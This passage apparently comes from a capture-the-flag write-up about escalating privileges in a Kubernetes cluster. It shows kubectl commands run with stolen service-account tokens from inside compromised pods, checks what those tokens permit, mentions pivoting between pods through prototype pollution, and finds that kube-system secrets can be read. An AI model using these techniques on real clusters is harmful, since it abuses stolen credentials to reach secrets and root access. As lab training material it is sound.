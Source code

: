 ## Can I exec Pods
```console
root@webapp-deployment-5d764566f4-h5zhw:/run/secrets/kubernetes.io/serviceaccount# /root/kubectl --token=`cat token` --namespace=dev auth can-i exec pods
no
```
Similar to docker, in kuberantes we can get a shell inside a docker container but it turns out we do not have that permission. If we can create a new pod, we can potentially mount the root filesystem of the host on the docker container and get a shell on that container to become root.
## Listing pods with -o wide flag
```console
root@webapp-deployment-5d764566f4-h5zhw:/tmp/py# kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` get pods -n dev -o wide
NAME                                READY   STATUS    RESTARTS   AGE    IP            NODE          NOMINATED NODE   READINESS GATES
devnode-deployment-cd86fb5c-6ms8d   1/1     Running   28         146d   172.17.0.6    unobtainium   <none>           <none>
devnode-deployment-cd86fb5c-mvrfz   1/1     Running   29         146d   172.17.0.9    unobtainium   <none>           <none>
devnode-deployment-cd86fb5c-qlxww   1/1     Running   29         146d   172.17.0.10   unobtainium   <none>           <none>
```
I was running out of ideas and I decided to get a shell on one of the other pods to check if they are just the exact replica or have some additional privileges.

# Getting shell on 172.17.0.10
I used the exact same process to get a shell on this pod by abusing prototype pollution and code injection.

This time the token was different and I checked if I have access to any other namespaces and it turned out I can.
## Listing privileges on kube-system
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` auth can-i --list -n kube-system
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
```